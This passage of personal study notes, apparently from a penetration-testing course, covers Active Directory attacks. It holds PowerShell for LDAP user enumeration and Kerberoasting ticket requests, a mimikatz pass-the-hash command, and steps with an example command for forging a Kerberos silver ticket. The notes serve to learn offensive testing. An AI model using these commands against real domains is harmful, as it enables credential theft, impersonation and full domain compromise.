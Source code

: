 When in doubt and need some pics, go to the [abatchy's post on this](https://www.abatchy.com/2017/01/port-forwarding-practical-hands-on-guide)
or [this one](https://chamibuddhika.wordpress.com/2012/03/21/ssh-tunnelling-explained/)

# Active directory attacks
--------------------------
Another terra incognita in there, knew very little of it before attending the course. 
As always, enumeration is essential. [Powerview](https://github.com/PowerShellMafia/PowerSploit/) from powersploit seems to be a good tool.
[Bloodhound](https://github.com/BloodHoundAD/BloodHound) is a way to go for graphical representation of gathered data and to discover
possible ways of exploitation towards gaining domain admin. [Kerberoasting](https://attack.mitre.org/techniques/T1558/003/) is a neat
technique to use. Pass-the-hash, overpass-the-hash and pass-the-ticked could be used for lateral movement, especially with DCOM tricky
way to run macro docs on remote hosts. Silver tickets and golden tickets are ultimate targets (well, at least golden). Pwn DC == pwn all
the users, all the hashes are there.  
Remember about some caveats like that NTLM is used only when accessing resource by IP address and that there may be managed service accounts used
that have very long password which is unfeasible to bruteforce. Also when performing DCOM lateral movement, you may see some profile errors for
system account, those could be fixed by creating a directory `\\srv\c$\Windows\System32\config\systemprofile\Desktop` (or in Syswow64)

Some useful commands below.  

```powershell
# query LDAP for some info

$d = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$pdc = $d.PdcRoleOwner.Name
$ddn = "DC=$($d.Name.Replace('.', ',DC='))"
$s = "LDAP://$pdc/$ddn"

$searcher = new-object System.DirectoryServices.DirectorySearcher([ADSI]$s)
$domain = new-object System.DirectoryServices.DirectoryEntry($s)
$searcher.SearchRoot = $domain

$searcher.Filter="samAccountType=80530638" # find users
$res = $searcher.FindAll()

# request SPN token
Add-Type -assemblyname System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'SPN'
```

PTH with mimikatz - `sekurlsa::pth /user:USR /domain:DOMAIN /ntlm:HASH /run:CMD`  
Forging silver ticket:

 1. Get service user's TGS
 2. Get some domain user SID `whoami /user`, omit last four digits
 3. Run `kerberos::golder /user:USER /domain:DOMAIN /sid:SID /target:SPN /service:SPNSERVICE /rc:PASSHASH /ptt`
    example: `kerberos::golden /user:kira /domain:example.com /sid:S-1-5-21... /target:CorpSqlServer.example.com /service:SQL /rc4:ABC... /ptt`
